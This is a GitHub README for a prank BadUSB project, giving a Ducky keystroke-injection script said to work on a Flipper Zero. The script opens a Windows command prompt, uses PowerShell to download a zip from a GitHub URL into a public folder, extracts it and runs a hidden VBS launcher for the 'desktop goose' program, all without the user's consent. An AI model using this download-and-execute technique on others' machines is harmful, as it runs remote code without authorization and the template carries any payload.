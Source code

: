 # Badusb-desktop-goose
Script for a badusb that will download and run a desktop goose every 60 seconds

Credit for the desktop goose goes to [Sam Chiet](twitter.com/samnchiet)

## Ducky script(tested and working on flipper zero):
```
REM Download goose and unzip
DELAY 500
GUI r
DELAY 500
STRING cmd
DELAY 500
ENTER
DELAY 500
STRING powershell (New-Object System.Net.WebClient).DownloadFile('https://github.com/Ferferite/Badusb-desktop-goose/archive/refs/heads/main.zip', 'C:\Users\Public\Badusb-desktop-goose.zip')
DELAY 500
ENTER
DELAY 1000
STRING powershell Expand-Archive -Path 'C:\Users\Public\Badusb-desktop-goose.zip' -DestinationPath 'C:\Users\Public\Temp'
DELAY 500
ENTER
DELAY 500
STRING cd C:\Users\Public\Temp\Badusb-desktop-goose-main
DELAY 500
ENTER
STRING cscript inviswindow.vbs
DELAY 500
ENTER
STRING exit
DELAY 100
ENTER
```
